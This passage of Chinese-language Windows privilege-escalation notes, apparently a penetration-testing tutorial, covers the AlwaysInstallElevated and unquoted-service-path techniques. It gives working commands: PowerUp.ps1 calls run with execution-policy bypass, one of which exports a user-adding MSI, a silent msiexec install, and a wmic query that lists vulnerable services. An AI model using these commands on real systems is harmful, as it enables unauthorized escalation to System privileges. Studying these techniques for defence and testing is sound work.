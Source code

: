 #### (3). 安装msi文件

* 通过命令行调用msiexec安装msi文件，msi文件内包含要执行的Payload，Payload将会以System权限执行

```
powershell.exe -exec bypass -Command "&{Import-Module .\PowerUp.ps1;Get-RegistryAlwaysInstallElevated}"
```

#### (4). 导出msi文件

```
powershell.exe -exec bypass -Command "&{Import-Module .\PowerUp.ps1;WriteUserAddMSI}"
```

#### (5). 命令执行

```
msiexec /q /i UserAdd.msi

/i  安装操作
/q	隐藏安装界面
```

### 2. Trusted Service Paths

* Windows服务通常是以**System权限运行**的，在解析服务的二进制文件对应的**文件路径中的空格**时，也会**以系统权限进行解析**，因此能够利用该特性进行权限提升

#### (1). 特性

* 对于路径`C:\Program File\Some Folder\Service.exe`，Windows会按照如下顺序进行解析

  ```
  C:\Program.exe
  C:\Program File\Some.exe
  C:\Program File\Some Folder\Service.exe
  ```

* 因此，可以在**特定的目录**，上传**适当命名的恶意可执行文件**，从而在服务重启时，以System权限运行

#### (2). 提权流程

1. 假设已经获得目标机的低权限Meterpreter shell，尝试通过TrustedService Paths漏洞来尝试实现权限的提升

   * 服务的可执行文件的路径**没有用双引号封闭**，并且**包含空格**

   * ```apl
     #列举受害者机器上所有没有加引号的服务路径
     wmic service get name,displayname,pathname,startmode|findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v ""
     ```

     ![包含空格](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410282132539.png)

2. 检验目标文件夹是否有**写入权限**，使用`icacls`,依次检查是否具有权限

   * M表示修改，F表示完全控制，CI表示丛书容器将继承访问控制项，OI表示从属文件将继承访问控制项，这意味着对目录有读、写、删除其下的文件、删除该目录下的子目录的权限
